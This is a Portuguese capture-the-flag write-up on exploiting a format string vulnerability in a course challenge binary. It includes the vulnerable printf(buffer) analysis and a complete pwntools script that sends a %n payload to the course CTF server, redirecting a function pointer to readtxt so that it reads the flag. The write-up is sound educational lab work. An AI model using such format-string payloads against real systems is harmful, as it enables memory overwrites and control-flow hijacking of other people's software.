

# CTF Semana #6 (Format String)

Este documento apresenta as etapas seguidas para a exploração de *format string vulnerabilities* para ler/escrever de/para endereços de memória arbitrários, não necessariamente na stack.

## 1. Reconhecimento

Analisando o programa do `main.c`, observamos que há uma instrução `printf(buffer)` onde não é definida a format string. Isto significa que esta instrução imprime diretamente o conteúdo do buffer, que é controlado pelo user, sem especificar um formato seguro. Assim, esta linha torna o programa vulnerável (Figura 2).


*Figura 1: identificação da vulnerabilidade format string no `main.c`.*


## 2. Encontrar um Exploit

Para fazer o exploit desta vulnerabilidade, vamos tentar fazer com que `fun` aponte para a função `readtxt` e passar a string `flag` como argumento da função, uma vez que é o nome do ficheiro que queremos abrir.

Para isso, precisamos do endereço da função `readtxt` e da variável `fun`.

O endereço de `readtxt` foi obtido através do `gdb program` como mostra a Figura 2.


*Figura 2: obtenção do endereço de `readtxt`*

Ao corrermos o `program` e analisando o `main.c` em simultâneo, observamos que o programa imprime o valor do endereço da variável `fun` cada vez que é executado. Este valor é randomizado (e diferente) a cada execução do programa. Por esse motivo, não conseguimos obter o seu valor apenas correndo o programa e guardando o valor que lemos (Figura 3).


*Figura 3: endereço de `fun` diferente em cada execução de `program`.*

Como alternativa, podemos tentar ler o endereço de `fun` do programa diretamente no ficheiro do `exploit-template.py`. Conseguimos isto com o seguinte comando:

```python
fun = res[int(res.find(b"hint:") + 6):int(res.find(b"hint:") + 14)]
```

Com estas informações conseguimos escrever o payload para colocar no `exploit-template.py`:

**1.** `"./flagxx"` - para `readtxt` receber "./flag" como argumento e interpretar "flag" como o nome do ficheiro (o `readtxt` apenas considera os primeiros 6 bytes do argumento para o nome do ficheiro). Os caracteres "xx" são para que o tamanho do input seja um múltiplo de 4 bytes para garantir o alinhamento da stack. 

**2.** `fun` - adicionar o endereço de `fun` que queremos subscrever no formato little-endian. 

**3.** `%x%x%n`: o `%n` escreve o tamanho da string no address para que está a apontar. O address de `fun` é o terceiro endereço por isso podemos escrever `%x` 2 vezes e `%n` já vai estar a apontar para `fun`. Como queremos escrever no endereço do `readtxt`, podemos utilizar `%<num>x$n`, em que `%<num>x` substitui o segundo `%x`, para especificar o address para onde vamos escrever:

```
num = address de readtxt - 8 bytes (./flagxx) - 4 bytes (fun) - 8 bytes (%x)
```

Assim, o ficheiro `exploit-template.py` vai ser o seguinte:

```python
#!/usr/bin/python3 
from pwn import *

r = remote('ctf-fsi.fe.up.pt', 4001)
#r = remote('127.0.0.1', 4003)
#r = process('./program')

context(arch='i386')

res = r.recvuntil(b"flag:\n")
print(res)

get_fun = res[int(res.find(b"hint:") + 6):int(res.find(b"hint:") + 14)]
int_fun = int(get_fun, 16)
fun = p32(int_fun)

num = int(0x80497a5) - 8 - 4 - 8

payload = b"./flagxx" + fun + b"%x%" + str(num).encode() + b"x%n"
r.sendline(payload)

buf = r.recvall().decode(errors="backslashreplace")
print(buf)
```

## 3. Explorar a Vulnerabilidade

Ao correr o exploit com `python3 exploit-template.py` conseguimos determinar a flag deste CTF (Figura 4)!



*Figura 4: flag obtida ao explorar a vulnerabilidade*

